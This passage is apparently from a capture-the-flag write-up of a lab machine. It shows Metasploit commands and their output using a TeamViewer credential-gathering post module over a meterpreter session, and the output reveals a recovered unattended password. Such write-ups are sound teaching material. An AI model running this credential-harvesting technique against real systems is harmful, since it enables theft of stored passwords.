 ## Root.txt

We find the root.txt flag in C:\Users\Administrator\Desktop

![system_flag](/assets/img/posts/remote/system_flag.png)

# Privilege Escalation #2

This version of TeamViewer is vulnerable to a credentials disclosure exploit, and we can use [this](https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer_passwords) metasploit module to exploit it.

Using metasploit, setup a meterpreter shell with a metasploit listener, using the python script to trigger it. Then set the post module.

```bash
msf5 exploit(multi/handler) > use teamviewer

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  post/windows/gather/credentials/teamviewer_passwords                   normal  No     Windows Gather TeamViewer Passwords


[*] Using post/windows/gather/credentials/teamviewer_passwords
```

Set the session as our meterpreter session and run the exploit.

```bash
msf5 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/credentials/teamviewer_passwords) > exploit
[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```
